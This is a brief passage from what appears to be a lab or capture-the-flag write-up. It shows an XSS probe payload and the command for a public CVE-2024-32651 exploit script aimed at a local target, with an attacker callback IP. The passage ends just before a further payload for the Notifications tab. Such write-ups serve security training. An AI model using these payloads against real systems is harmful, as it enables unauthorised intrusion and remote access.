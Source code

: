 ```html
"><img src=x onerror=alert(document.domain)>
```

![](attachment/f4d6ddec3085ce1cad7f0abba879b96e.png)

Use this payload: [cve-2024-32651](https://github.com/zcrosman/cve-2024-32651)

```shell
python3 cve-2024-32651.py --url http://localhost:5000 --ip 10.10.15.30
```

![](attachment/f3ae96af176261a246b4eadabb50dbce.png)

Go in Notifications tab using the payload below and click on send test Notification:
